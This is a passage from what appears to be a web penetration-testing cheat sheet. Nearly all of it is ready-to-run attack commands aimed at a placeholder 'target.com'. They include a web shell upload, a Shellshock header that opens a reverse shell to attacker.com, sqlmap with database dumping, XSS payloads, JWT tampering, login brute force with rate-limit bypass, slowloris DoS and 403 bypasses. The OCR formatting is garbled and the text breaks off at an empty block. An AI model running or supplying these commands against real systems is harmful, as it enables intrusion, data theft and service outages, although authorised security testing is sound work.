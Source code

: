 ```bash
arjun -u https://target.com/index.php -m GET
```
Bypass HTTP Methods
```bash
curl -X TRACE https://target.com
curl -X PUT https://target.com/shell.php --data-binary @shell.php
4. 🐚 RCE / LFI / SSTI Testing
```
Local File Inclusion (LFI) Test
```bash
ffuf -u https://target.com/page=FUZZ -w /usr/share/wordlists/lfi.txt
```
SSTI Test in Burp or via qsreplace
```bash
cat params.txt | qsreplace "{{7*7}}" | while read url; do curl -s $url | grep 49 && echo "$url vulnerable"; done
```
RCE via Headers
```bash
curl -H "User-Agent: () { :;}; echo; bash -i >& /dev/tcp/attacker.com/4444 0>&1" https://target.com
5. 💥 SQL Injection & XSS Testing
```
SQLMap Automated Scan
```bash
sqlmap -u "https://target.com/page.php?id=1" --batch --level=5 --risk=3 --dump
```
XSS Reflected Auto Test
```bash
dalfox file params.txt --custom-payload xss_payloads.txt --silence
```
XSS in Headers
```bash
curl -H "Referer: <script>alert(1)</script>" https://target.com
6. 🔐 Authentication, JWT & IDOR
```
JWT Decode & Tamper
```bash
echo <token> | jwt -d -k "secret"
```
Brute-force hidden IDs
```bash
ffuf -u https://target.com/user?id=FUZZ -w numbers.txt -mc 200
```
Auth Bypass with Headers
```bash
curl -H "X-Original-URL: /admin" https://target.com
curl -H "X-Custom-IP-Authorization: 127.0.0.1" https://target.com
7. 🧨 Rate Limiting & DoS Testing
```
Rate Limit Bypass with Header Rotation
```bash
ffuf -u https://target.com/login -w users.txt:USER -w passwords.txt:PASS -H 'X-Forwarded-For: 127.0.0.1' -d 'username=USER&password=PASS' -X POST
```
Slow POST DoS
```bash
slowloris https://target.com
8. 🔍 404 Bypass / Hidden Endpoints
```
Common 403/404 Bypass Payloads
```bash
curl https://target.com/admin/
curl https://target.com/admin/..;/  # bypass
curl https://target.com/admin.%20/
```
Hidden Endpoint Discovery
```bash
```